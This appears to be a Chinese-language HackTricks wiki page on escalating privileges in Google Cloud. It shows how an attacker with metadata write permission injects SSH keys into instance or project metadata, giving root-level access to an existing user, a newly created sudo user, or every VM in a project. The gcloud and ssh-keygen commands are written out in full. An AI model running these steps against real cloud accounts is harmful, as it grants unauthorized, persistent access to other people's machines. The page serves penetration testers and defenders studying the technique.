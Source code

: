 # GCP - 添加自定义 SSH 元数据

## GCP - 添加自定义 SSH 元数据

{{#include ../../../../banners/hacktricks-training.md}}

### 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

在实例上修改元数据可能会导致 **如果攻击者获得必要权限，将会带来重大安全风险**。

#### **将 SSH 密钥纳入自定义元数据**

在 GCP 上，**Linux 系统** 通常会从 [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) 执行脚本。其关键组件是 [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，旨在 **定期检查** 实例元数据端点以获取 **授权 SSH 公钥的更新**。

因此，如果攻击者能够修改自定义元数据，他可以使守护进程找到一个新的公钥，该公钥将被处理并 **集成到本地系统**。该密钥将被添加到 **现有用户的 `~/.ssh/authorized_keys` 文件中，或者可能创建一个具有 `sudo` 权限的新用户**，具体取决于密钥的格式。攻击者将能够攻陷主机。

#### **将 SSH 密钥添加到现有特权用户**

1. **检查实例上的现有 SSH 密钥：**

- 执行命令以描述实例及其元数据，以定位现有的 SSH 密钥。输出中的相关部分将在 `metadata` 下，具体是 `ssh-keys` 键。

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```

- 注意 SSH 密钥的格式：用户名在密钥之前，用冒号分隔。

2. **为 SSH 密钥元数据准备文本文件：**
- 将用户名及其对应的 SSH 密钥的详细信息保存到名为 `meta.txt` 的文本文件中。这对于在添加新密钥时保留现有密钥至关重要。
3. **为目标用户（本示例中的 `alice`）生成新的 SSH 密钥：**

- 使用 `ssh-keygen` 命令生成新的 SSH 密钥，确保注释字段（`-C`）与目标用户名匹配。

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

- 将新的公钥添加到 `meta.txt` 中，模仿实例元数据中找到的格式。

4. **更新实例的 SSH 密钥元数据：**

- 使用 `gcloud compute instances add-metadata` 命令将更新的 SSH 密钥元数据应用于实例。

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **使用新 SSH 密钥访问实例：**

- 使用新密钥通过 SSH 连接到实例，以目标用户（本示例中的 `alice`）的身份访问 shell。

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **创建新特权用户并添加 SSH 密钥**

如果没有找到有趣的用户，可以创建一个新用户并赋予其 `sudo` 权限：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### 项目级别的 SSH 密钥 <a href="#sshing-around" id="sshing-around"></a>

通过 **在项目级别应用 SSH 密钥**，可以扩大对云环境中多个虚拟机 (VM) 的 SSH 访问范围。这种方法允许对项目内任何未明确阻止项目范围内 SSH 密钥的实例进行 SSH 访问。以下是简要指南：

1. **在项目级别应用 SSH 密钥：**

- 使用 `gcloud compute project-info add-metadata` 命令将 `meta.txt` 中的 SSH 密钥添加到项目的元数据中。此操作确保 SSH 密钥在项目中的所有 VM 中被识别，除非某个 VM 启用了“阻止项目范围内 SSH 密钥”选项。

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **使用项目范围内的密钥 SSH 进入实例：**
- 在项目范围内的 SSH 密钥到位后，您可以 SSH 进入项目内的任何实例。未阻止项目范围内密钥的实例将接受 SSH 密钥，从而授予访问权限。
- SSH 进入实例的直接方法是使用 `gcloud compute ssh [INSTANCE]` 命令。此命令使用您当前的用户名和在项目级别设置的 SSH 密钥尝试访问。

## 参考

- [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{{#include ../../../../banners/hacktricks-training.md}}
